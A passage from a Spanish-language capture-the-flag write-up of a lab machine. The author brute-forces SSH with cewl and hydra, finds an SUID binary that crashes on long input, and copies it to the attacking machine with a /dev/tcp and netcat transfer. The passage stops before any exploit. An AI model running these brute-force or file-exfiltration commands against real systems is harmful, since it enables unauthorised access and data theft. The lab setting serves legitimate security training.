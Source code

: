 ![image](https://github.com/user-attachments/assets/793786f8-78ac-4c2f-bdd4-c9f093345a14)

no parece ser muy interesante el binario, no tiene nada que me sirva para explotar y acceder al servidor `172.17.0.2`, por otro lado esta el servicio `ssh` pero no tengo
usuarios; sin embargo en la web existen par de nombres los cuales despues de probar en el servicio `ssh` un ataque de diccionario no obtengo resultados, asi que hago uso de
`cewl` para recolectar las palabras de la web y crear un diccionario e intentar con este diccionario aplicar nuevamente un ataque de diccionario

```ruby
cewl http://172.17.0.2 -w wordlist
```

![image](https://github.com/user-attachments/assets/7eee0ff2-4b96-44a3-8374-75d7c27d5d65)

```ruby
hydra -L users -P wordlist ssh://172.17.0.2 -F
```

![image](https://github.com/user-attachments/assets/4257dc57-12d0-4041-8890-e53033a60124)

accedo al sistema

![image](https://github.com/user-attachments/assets/185d6cb5-8d31-4daf-a7a7-c8a52edc6be5)


## Esclada de Privilegios

### alex

si listo el contenido del directorio del user `alex` observo un archivo con permisos `SUID`

![image](https://github.com/user-attachments/assets/17bb87d0-6162-495f-88cd-bc2805e18132)

si chequeo de que se trata

![image](https://github.com/user-attachments/assets/84cfe9ad-204c-4d7c-b56d-92544f36b692)

se trata de un binario, asi que lo ejecuto a ver de que va esto

![image](https://github.com/user-attachments/assets/c5f8a7f7-e78f-489f-93f2-e7985e5d104a)

se coloca en escucha por el puerto `7777` asi que testeo

![image](https://github.com/user-attachments/assets/3a924e3f-8135-4ab8-8584-d25c59b2d254)


continuo testeando

![image](https://github.com/user-attachments/assets/6006a802-7563-43fb-b81d-6645e6503f6f)

ocurrio un fallo de segmentacion, por lo que el binario es propenso a un desbordamiento de buffer, asi que me lo paso a mi maquina atacante para analizar 

```ruby

cat server > /dev/tcp/172.17.0.1/6000 # en la maquina comprometida (172.17.0.2)

nc -lnvp 6000 > server # en mi maquina atacante
```
